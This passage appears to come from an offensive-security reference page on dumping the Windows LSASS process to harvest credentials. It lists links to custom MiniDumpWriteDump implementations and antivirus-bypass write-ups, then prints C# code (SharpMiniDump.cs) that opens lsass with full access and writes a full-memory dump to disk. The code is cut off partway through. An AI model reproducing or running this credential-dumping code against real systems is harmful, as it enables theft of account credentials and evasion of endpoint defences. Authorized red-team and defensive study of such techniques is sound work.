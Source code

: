 
### Custom Implementations

- [https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump](https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump)
- [https://github.com/w1u0u1/minidump](https://github.com/w1u0u1/minidump)
- [https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c](https://github.com/helpsystems/nanodump/blob/main/source/nanodump.c)
- [https://github.com/YOLOP0wn/POSTDump/tree/main/POSTDump/POSTMiniDump](https://github.com/YOLOP0wn/POSTDump/tree/main/POSTDump/POSTMiniDump)



### MiniDump Callbacks

- [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass#minidumpwritedump-to-memory-using-minidump-callbacks](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass#minidumpwritedump-to-memory-using-minidump-callbacks)
- [https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs](https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs)
- [https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/](https://dec0ne.github.io/research/2022-11-14-Undetected-Lsass-Dump-Workflow/)



### C\# Implementation

* [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/MiniDump)

{% code title="SharpMiniDump.cs" %}
```csharp
using System;
using System.IO;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace SharpMiniDump
{
    public class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        public static void Main(string[] args)
        {
            FileStream dumpFile = new FileStream(@"C:\Windows\tasks\lsass.dmp", FileMode.Create);

            Process[] lsassProc = Process.GetProcessesByName("lsass");
            int lsassPid = lsassProc[0].Id;
            
            IntPtr hProcess = OpenProcess(
                0x001F0FFF, // PROCESS_ALL_ACCESS
                false,
                lsassPid);

            bool res = MiniDumpWriteDump(
                hProcess,
                lsassPid,
                dumpFile.SafeFileHandle.DangerousGetHandle(),
                2, // MiniDumpWithFullMemory
```